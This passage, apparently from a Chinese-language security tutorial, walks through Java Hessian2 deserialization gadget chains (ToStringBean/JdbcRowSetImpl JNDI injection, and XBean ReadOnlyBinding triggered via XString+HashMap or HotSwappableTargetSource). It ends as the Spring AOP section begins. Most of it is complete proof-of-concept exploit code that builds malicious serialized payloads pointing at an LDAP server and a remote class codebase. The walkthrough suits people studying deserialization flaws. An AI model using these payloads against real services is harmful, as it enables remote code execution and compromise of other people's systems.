

还是蛮多的，我们看看readString

## Hessian2Input#readString



## Hessian2Input#readObjectDefinition



readObjectDefinition调用了readString

## Hessian2Input#readObject



在readObject(Class cl)中调用了readObjectDefinition

但是这里我们需要让让tag为67（C的ASCII码），可以给序列化得到的bytes数组前加一个67

至此链子就是

## 最终链子

```java
Hessian2Input#readObject()->
    Hessian2Input#readObjectDefinition()->
    	Hessian2Input#readString()->
    		Hessian2Input#expect()->
    			ToStringBean#toString()->
    				JdbcRowSetImpl#getDatabaseMetaData()->
    					JNDI注入
```

## 最终POC

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Method;

public class Expect_To_toString {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/exp";
        Method setDataSourceName = BaseRowSet.class.getDeclaredMethod("setDataSourceName",String.class);
        setDataSourceName.invoke(jdbcRowSet,url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);

        byte[] bytes = Hessian2_serialize(toStringBean);
        System.out.println("第一个字节: " + bytes[0]);  //67
        System.out.println("对应字符: " + (char)bytes[0]);  //C
        Hessian2_unserialize(bytes);
    }
    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        //写入一个字节
        baos.write(67);
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian2依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        return hessian2Input.readObject();
    }

}
```



# XBean链

这个需要导入依赖

```xml
<dependency>
  <groupId>org.apache.xbean</groupId>
  <artifactId>xbean-naming</artifactId>
  <version>4.5</version>
</dependency>
```

然后我们来看看链子

在org.apache.xbean.naming.context.ContextUtil.ReadOnlyBinding类中



可以看到这个类是继承了Binding类的，但是这个类没有重写toString方法，我们看到父类的toString

## Binding#toString

```java
    public String toString() {
        return super.toString() + ":" + getObject();
    }
```

会调用到父类的toString并且还会调用到getObject函数，我们看看ReadOnlyBinding的getObject

## ReadOnlyBinding#getObject

```java
        public Object getObject() {
            try {
                return resolve(value, getName(), null, context);
            } catch (NamingException e) {
                throw new RuntimeException(e);
            }
        }
```

有一个resolve方法

```java
    public static Object resolve(Object value, String stringName, Name parsedName, Context nameCtx) throws NamingException {
        if (!(value instanceof Reference)) {
            return value;
        }

        Reference reference = (Reference) value;

        // for SimpleReference we can just call the getContext method
        if (reference instanceof SimpleReference) {
            try {
                return ((SimpleReference) reference).getContent();
            } catch (NamingException e) {
                throw e;
            } catch (Exception e) {
                throw (NamingException) new NamingException("Could not look up : " + stringName == null? parsedName.toString(): stringName).initCause(e);
            }
        }

        // for normal References we have to do it the slow way
        try {
            if (parsedName == null) {
                parsedName = NAME_PARSER.parse(stringName);
            }
            return NamingManager.getObjectInstance(reference, parsedName, nameCtx, nameCtx.getEnvironment());
        } catch (NamingException e) {
            throw e;
        } catch (Exception e) {
            throw (NamingException) new NamingException("Could not look up : " + stringName == null? parsedName.toString(): stringName).initCause(e);
        }
    }
```

会调用到NamingManager的getObjectInstance方法，那么就跟之前分析过的一样了

```java
return NamingManager.getObjectInstance(reference, parsedName, nameCtx, nameCtx.getEnvironment());
```

追溯一下里面的参数是怎么传入的，可以看到reference就是ReadOnlyBinding类构造函数中的value

```java
        public ReadOnlyBinding(String name, Object value, boolean isRelative, Context context) {
            super(name, value);
            this.value = value;
            this.context = context;
            this.isRelative = isRelative;
        }
```

前面如何触发toString的方法就有很多，可以用XString+hashMap去触发

## XString+hashMap触发toString

### 最终POC1

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class XString_To_XBean_POC {
    public static void main(String[] args) throws Exception {
        //构造一个恶意的Reference对象
        Reference refObj = new Reference("Exploit","Exploit","http://127.0.0.1:8000/");
        Context context = new WritableContext();//随便获取一个Context就行了
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("wanth3f1ag",refObj,context);

        //触发toString方法
        XString xString = new XString("wanth3f1ag");
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",readOnlyBinding);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",readOnlyBinding);
        HashMap map = makeMap(hashmap1,hashmap2);

        byte[] poc = Hessian2_serialize(map);
        Hessian2_unserialize(poc);

    }
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

我一开始用的InitialContext发现不行，出现报错了

```java
Exception in thread "main" java.lang.RuntimeException: javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or as an applet parameter, or in an application resource file:  java.naming.factory.initial
	at org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding.getObject(ContextUtil.java:206)
	at javax.naming.Binding.toString(Binding.java:192)
	at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
	at java.util.AbstractMap.equals(AbstractMap.java:472)
	at java.util.HashMap.putVal(HashMap.java:634)
	at java.util.HashMap.put(HashMap.java:611)
	at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
	at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577)
	at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
	at SerializeChains.HessianChains.XString_To_XBean_POC.Hessian2_unserialize(XString_To_XBean_POC.java:83)
	at SerializeChains.HessianChains.XString_To_XBean_POC.main(XString_To_XBean_POC.java:39)
Caused by: javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or as an applet parameter, or in an application resource file:  java.naming.factory.initial
	at javax.naming.spi.NamingManager.getInitialContext(NamingManager.java:662)
	at javax.naming.InitialContext.getDefaultInitCtx(InitialContext.java:313)
	at javax.naming.InitialContext.getEnvironment(InitialContext.java:550)
	at org.apache.xbean.naming.context.ContextUtil.resolve(ContextUtil.java:73)
	at org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding.getObject(ContextUtil.java:204)
	... 10 more
```

意思是在JNDI的时候缺少必要的配置，换成WritableContext就可以了



当然也可以用HotSwappableTargetSource去触发toString

## HotSwappableTargetSource触发toString

### 最终POC2

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class XString_To_XBean_POC {
    public static void main(String[] args) throws Exception {
        //构造一个恶意的Reference对象
        Reference refObj = new Reference("Exploit","Exploit","http://127.0.0.1:8000/");
        Context context = new WritableContext();//随便获取一个Context就行了
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("wanth3f1ag",refObj,context);

        XString xString = new XString("wanth3f1ag");
        //触发XString+HashMap触发toString方法
//        HashMap hashmap1 = new HashMap();
//        HashMap hashmap2 = new HashMap();
//        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
//        hashmap1.put("yy",readOnlyBinding);
//        hashmap1.put("zZ",xString);
//        hashmap2.put("yy",xString);
//        hashmap2.put("zZ",readOnlyBinding);
//        HashMap map = makeMap(hashmap1,hashmap2);

        //HotSwappableTargetSource触发toString
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(readOnlyBinding);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(xString);
        HashMap hashmap = new HashMap();
        hashmap.put(hotSwappableTargetSource1,hotSwappableTargetSource1);
        hashmap.put(hotSwappableTargetSource2,hotSwappableTargetSource2);

        byte[] poc = Hessian2_serialize(hashmap);
        Hessian2_unserialize(poc);

    }
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

# Spring AOP链

也是需要导入依赖的

```xml
<dependency>
  <groupId>org.springframework</groupId>
  <artifactId>spring-aop</artifactId>
  <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
  <groupId>org.springframework</groupId>
  <artifactId>spring-context</artifactId>
  <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
  <groupId>org.aspectj</groupId>
  <artifactId>aspectjweaver</artifactId>
  <version>1.6.10</version>
</dependency>
```
